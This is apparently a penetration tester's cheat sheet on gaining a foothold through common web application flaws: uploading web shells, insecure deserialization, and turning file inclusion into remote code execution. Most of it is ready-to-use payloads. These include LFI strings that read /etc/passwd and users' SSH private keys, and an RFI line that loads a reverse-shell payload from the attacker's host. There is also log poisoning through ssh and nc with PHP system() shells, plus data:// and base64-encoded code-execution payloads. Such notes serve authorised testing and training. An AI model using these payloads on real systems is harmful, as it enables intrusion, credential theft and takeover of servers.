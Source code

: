 ### Common Web App vuln
If cannot locate a public exploit, you may need other means for getting the initial foothold.
### Arbitrary File Upload
If the site has a file upload function, and you know where is the 
upload directory (maybe in /uploads).

Locate your payload in /usr/share/webshells/, upload the corresponding script file.
Then navigate to http://IP/uploads/webshell.php. `webshell.php` is just an example, you need to navigate to the corresponding uploaded file.
If you are using payload like simple-backdoor.php, which does not do automatic payload execution and wait for user input
, you will need to navigate to http://IP/uploads/simple-backdoor.php then append `?cmd=PAYLOAD` or the payload will be received as post form data.

### Insecure deserialization

* [jsonpickle](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)
* [python payload generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator)
* [All other langauges payload list](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization)

### File Inclusion to RCE
The log poisoning is not necessary targeting php, it is just a common example being used.
You may need to either upload the web shell that need to be included or inject with other languages.
```bash
#POC LFI, check /etc/passwd
http://IP/?FI=/etc/passwd
#or
http://IP/?FI=../../../../../../../../etc/passwd
#if there is any user has shell login
http://IP/?FI=/home/user/.ssh/id_rsa
# more advanced filter see https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md
# RFI, rare since it is not enabled by default
# Setup a http server contains a reverse shell script
# send request then it will be invoked
http://IP/?FI=http://YOUR_IP/YOUR_PAYLOAD
# access log poisoning with ssh
ssh '<?php system($_GET['cmd']); ?>'@IP 
# access log poisoning with http
nc -nv IP HTTP_PORT
<?php system($_GET['cmd']); ?> #<- then click on return key twice and you should see a bad request respond
# SMTP injection
http://IP/FI?=/var/mail/TARGET_USER&cmd=id
# extension append filter
# data, can execute code directly
http://IP/FI?=data://text/plain,<?php phpinfo(); ?>
http://IP/FI?=data://text/plain,<?php shell_exec("PAYLOAD"); ?>
# data and base64 encode to code execution
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==
http://IP/FI?=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
# base64, can check file source
http://IP/FI?=php://filter/convert.base64-encode/resource=FILE
```
